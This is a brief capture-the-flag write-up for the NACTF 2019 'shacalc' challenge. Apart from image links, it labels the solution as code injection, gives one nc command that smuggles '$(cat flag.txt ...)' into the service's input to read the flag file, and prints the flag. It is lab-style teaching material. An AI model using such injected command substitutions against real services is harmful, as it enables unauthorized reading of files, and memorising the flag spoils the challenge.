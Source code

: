 ![alt text](/images/newarkctf/shacalc200hint.png)

### Solution
> This is code injection

![alt text](/images/newarkctf/shacalc200injected1.png)

> `echo '$(cat flag.txt | tr " " ".") 2>&1'  |  nc shell.2019.nactf.com 31214a`


### Flag

> `nactf{3v4l_1s_3v1l_dCf80yOo}`
![alt text](/images/newarkctf/shacalcflag.png)
